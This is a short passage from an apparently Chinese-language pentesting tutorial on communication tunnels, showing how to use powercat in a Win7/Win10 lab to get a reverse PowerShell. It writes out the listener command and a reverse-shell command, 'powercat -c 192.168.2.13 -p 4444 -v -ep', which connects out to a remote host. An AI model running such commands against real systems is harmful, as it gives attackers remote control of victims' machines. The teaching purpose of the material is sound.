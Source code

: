 （4）通过Powercat返回Powershell

在Win7上 运行powercat，监听4444端口（先监听后反弹，属于反向shell）

```
powercat -l -p 4444 -v
```

![](img/隐藏通信隧道基础知识/51.png)

在Win10上运行powercat，反弹一个powershell：（-ep用于返回powershell）

```
powercat -c 192.168.2.13 -p 4444 -v -ep
```
